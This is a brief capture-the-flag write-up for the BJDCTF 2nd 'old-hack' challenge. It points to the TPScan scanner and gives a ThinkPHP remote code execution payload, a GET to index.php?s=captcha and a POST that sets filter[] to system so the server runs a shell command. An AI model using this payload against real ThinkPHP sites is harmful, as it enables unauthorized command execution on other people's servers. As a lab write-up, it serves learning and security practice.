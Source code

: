 # \[BJDCTF 2nd]old-hack

## \[BJDCTF 2nd]old-hack

## wp

[TPScan](https://github.com/Lucifer1993/TPscan)可以扫出来漏洞

GET `index.php?s=captcha`&#x20;

POST `_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls`

